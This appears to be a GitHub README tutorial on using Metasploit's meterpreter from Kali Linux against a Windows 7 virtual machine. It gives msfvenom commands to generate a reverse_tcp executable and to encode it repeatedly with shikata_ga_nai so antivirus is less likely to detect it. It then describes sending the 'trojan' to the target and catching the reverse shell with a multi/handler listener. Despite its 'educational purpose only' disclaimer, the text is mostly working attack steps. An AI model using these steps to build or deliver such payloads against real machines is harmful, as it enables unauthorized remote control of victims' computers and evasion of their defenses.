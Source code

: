# meterpreter
this repo is for how to use meterpreter with Kali Linux 

## useful link

[Meterpreter Basiscs](https://www.offensive-security.com/metasploit-unleashed/meterpreter-basics/).

[Unix Basics Command](https://www.unixtutorial.org/basic-unix-commands)

[Kali Linux Iso Download](https://www.kali.org/get-kali/)


## prerequisites

1- have a kali machine update with msfvenom and metasploit (native)

2- have a windows vm,it's better with windows 7

3- have the basic knowledge to use linux


## 1- Metasploit 

choose the payload with this command  `msfvenom -l payload`

with `msfvenom --list-options -p windows/meterpreter/reverse_tcp` you can see all the option for the payload chosen


## 2- Generate the payload 


You can now create an executable file from the payload :

`msfvenom -p [payload] LHOST=[your ip address] LPORT=[port number] -f [file type] > [file path]`


## 3- Encode the payload 

Since windows/meterpreter/reverse_tcp is a common exploit, most antivirus programs will detect it. However, we can encrypt the program so that an antivirus program is less likely to detect it. A long list of encoders is included with metasploit. you just have to type :  

`msfvenom -l encoders`

Once you have chosen the desired encoding (I recommend x86/shikata_ga_nai), you can encrypt it several times when you type the command to perform the exploit. Encrypting the file multiple times makes the program less susceptible to antivirus software. 

type : 

`msfvenom -p [payload] LHOST=[your ip address] LPORT=[port number] -e [encode] -i [number of applications] -f [file type] > [file path] `


## 3- send the trojan 

now that you have a .exe you can send it to your machine. to make it easier I sent it to myself via Mega but you can do it in another way.


## 4- start a Meterpreter session 

open a msfconsole with `msfconsole` in a terminal

type : 

``` 
use exploit/multi/handler
set payload windows/meterpreter/reverse_tcp 
```

set your lhost and lport 

``` 
set lhost [your ip address]
set lport 4444
```

and now 

`run`

when you will see `meterpreter >` your in :)

______________________________________________________________________________________________________________________________________________________________________

For educational purpose only !

